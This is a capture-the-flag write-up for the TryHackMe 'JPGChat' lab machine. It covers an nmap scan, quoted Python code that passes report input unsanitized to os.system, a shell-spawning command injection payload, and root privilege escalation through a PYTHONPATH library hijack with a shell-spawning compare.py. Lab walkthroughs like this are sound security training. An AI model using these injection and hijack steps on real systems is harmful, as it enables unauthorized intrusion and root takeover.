

**Date:** 29/11/2022\
**Author:** [acfirthh](https://github.com/acfirthh)

**Machine Name:** JPGChat\
**Difficulty:** Easy\
**Link to Machine:** [TryHackMe - JPGChat](https://tryhackme.com/room/jpgchat)

## NMAP Scan
```
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-29 20:26 GMT
Nmap scan report for 10.10.63.208
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fecc3e203fa2f8096f2ca3affa329c94 (RSA)
|   256 e8180cadd0635f9dbdb784b8ab7ed197 (ECDSA)
|_  256 821d6bab2d04d50b7a9beef464b57f64 (ED25519)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, NULL: 
|     Welcome to JPChat
|     source code of this service can be found at our admin's github
|     MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
|_    REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```
From the NMAP scan I can see that there is some sort of interactive service running on port 3000. It looks like it could be a messaging service. It also says that the source code of the service can be found on the admin's github. A little bit of searching around and I found [it](https://github.com/Mozzie-jpg/JPChat/blob/main/jpchat.py).

Theres a snippet in the code that is vulnerable to command injection.

The code:
```
def report_form():
	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)
```

Looking again at what was returned from the NMAP scan, it gives the user an option to report someone to admins by sending a message saying **[REPORT]** which will call the function **report_form()**. It then prompts the user to enter their name and their report that the admins will read.

It works by directly concatenating the user's input into a system command to echo data into a file, which is run using `os.system()`.

We can exploit this by entering either our name or report information as this command: `;/bin/bash;echo`. This will spawn a shell for us to run any system commands we want.

## Initial Foothold
To interact with the service, I used the netcat command: `nc <ip> 3000`

I then send the message **[REPORT]** and enter a random name, and then the command mentioned above as the report. A shell is spawned and I stabilize the shell using `python -c 'import pty;pty.spawn("/bin/bash")'`.

From the command `whoami`, I can see that I have a shell as the user **wes**. Changing directory into **/home/wes**, I see that there is a file `user.txt` which is the first flag needed for the CTF.

## Privilege Escalation (root)
Running the command `sudo -l` shows me that the user **wes** has access to the **PYTHONPATH** environment variable and can run `/usr/bin/python3 /opt/development/test_module.py` as root with no password.

Reading the source code of `/opt/development/test_module.py` I see that it uses a module named **compare**. As we have access to the **PYTHONPATH** environment variable, we can exploit this using _Python Library Hijacking_. We can create our own **compare.py** file in our home directory, modify the **PYTHONPATH** variable, and this will make the **test_module.py** file import _our_ module and run any code that we write.

### Exploitation
- Create a file named **compare.py** in `/home/wes` containing the code
```
import subprocess
subprocess.call(['/bin/sh', '-i'])
```
This will spawn a shell when the module is imported, and as the command is run using sudo permissions, the module will also be run using sudo permissions, in turn spawning a root shell.

- Then run the command: `export PYTHONPATH=/home/wes` to set the **PYTHONPATH** environment variable to our home directory
- Finally, run the command: `sudo /usr/bin/python3 /opt/development/test_module.py`

SUCCESS! This will import _our_ **compare.py** module, run the code we wrote, and now we have a root shell!

Change directory to `/root` and read the final flag needed for the CTF.